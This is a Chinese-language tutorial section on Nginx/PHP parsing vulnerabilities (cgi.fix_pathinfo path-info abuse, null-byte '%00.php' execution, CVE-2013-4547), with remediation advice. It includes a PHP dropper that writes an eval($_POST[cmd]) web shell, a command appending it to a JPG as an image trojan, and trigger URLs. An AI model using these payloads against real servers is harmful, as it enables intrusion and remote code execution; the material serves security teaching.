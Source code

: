 ## 3. Nginx解析漏洞
### 3.1. 畸形解析漏洞
#### 3.1.1. 原理
* 对任意文件名，在后面添加”`/任意文件名.php`”的解析漏洞，比如图片木马文件名是`test.jpg`，可以添加为`test.jpg/x.php`进行**解析攻击**,那么`test.jpg`会被当成PHP脚本来解析。注意,此时的`x.php`是不存在的
* 这种解析漏洞其实是`PHP CGI`漏洞,在PHP配置文件中有个关键的选项:`cgi.fix_pathinfo`,这个选项在某些版本中是默认开启的

```
cgi.fix_pathinfo = 1
```

* 在开启时访问URL,比如: `http://www.xxser.com/x.txt/x.php`,`x.php`是不存在的文件,所以**PHP会`向前递归`解析**,于是造成了解析漏洞.由于Nginx和PHP配合很容易造成这种漏洞,所以,PHP CGI漏洞常常被认为是Nginx解析漏洞,所以其实跟Nginx自身是无关的。

#### 3.1.2. 利用
* 将shell语句，如  
```php
<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>
```
写在文本`xx.txt`中(或者shell语句直接写一句话，用菜刀、cknife等直连，只是容易被查杀）

* 然后用命令将shell语句附加在正常图片`xx.jpg`后

```
copy xx.jpg/b + xx.txt/a test.jpg
```

* 上传`test.jpg`，然后访问`test.jpg/.php`或`test.jpg/abc.php`,当前目录下就会生成一句话木马 `shell.php`

#### 3.1.3. 修复
* 将`cgi.fix_pathinfo` 设置为0

### 3.2. 空字节代码执行漏洞
#### 3.2.1. 原理
* 低版本的Nginx可以在任意文件名后面添加`%00.php`进行**解析攻击**。

```
Nginx0.5.
Nginx0.6.
Nginx0.7. <= 0.7.65
Nginx0.8. <= 0.8.37
```

#### 3.2.2. 利用
* 比如在图片后附加php代码,然后通过访问
```
xx.jpg%00.php
```
来执行其中的代码

### 3.3. 文件名逻辑漏洞(CVE-2013-4547)
* 受影响的nginx版本: 0.8.41至1.4.3和1.5.7之前的1.5.x
* 正常上传一个附加代码的图片`test.jpg`，访问时后面+`空格`+`\\0`+`.php`，即让图片作为php文件解析
